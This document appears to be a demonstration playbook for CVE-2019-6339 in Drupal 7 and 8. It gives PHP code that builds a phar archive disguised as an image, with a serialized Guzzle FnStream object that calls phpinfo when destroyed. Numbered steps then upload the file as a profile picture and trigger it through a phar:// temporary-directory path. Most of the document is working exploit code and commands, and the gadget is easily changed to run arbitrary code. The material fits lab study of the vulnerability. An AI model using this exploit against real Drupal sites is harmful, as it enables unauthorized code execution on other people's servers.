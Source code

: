 ### Playbook for demonstrating exploit CVE-2019-6339 for drupal

**Versions applicable - Drupal Core versions 7.x prior to 7.62, 8.6.x prior to 8.6.6 and 8.5.x prior to 8.5.9**
**Requirements - Admin access to drupal site**

1. Create a directory in your home directory.

2. Move into the directory.

3. Create a php file and copy the following code into it

        <?php

        namespace GuzzleHttp\Psr7 {
            class FnStream {

                public $_fn_close = "phpinfo";

                public function __destruct() {
                    if (isset($this->_fn_close)) {
                        call_user_func($this->_fn_close);
                    }
                }
            }
        }

        namespace {
            @unlink("phar.phar");
            $phar = new Phar("phar.phar");
            $phar->startBuffering();
            $phar->setStub("GIF89a" . "<?php __HALT_COMPILER(); ?>");
            $o = new \GuzzleHttp\Psr7\FnStream();
            $phar->setMetadata($o);
            $phar->addFromString("test.txt", "test");
            $phar->stopBuffering();

        }
        ?>

4. Save the file.

5. Run the file using the below command.
   
   `php <file_name>.php`

6. A `phar.phar` file will be created in your current folder.

7. Rename the file using the below command.

    ` mv phar.phar exploit.png`

8. Open the drupal site using `localhost/drupal-8.6.5`

9. Go to the admin profile and click `Edit profile`.

10. Upload the `exploit.png` file into the picture option.

11. After uploading, click on the link `exploit.png` and copy the path `sites/default/..../exploit.png`

12. Save

13. Go to `Manage` and click on `configuration`.

14. Select `File system` under `Media`

15. Edit the `Temporary directory` path by pasting the above copied url in the following format
    
    `phar://sites/default/..../exploit.png`

16. Reload the site.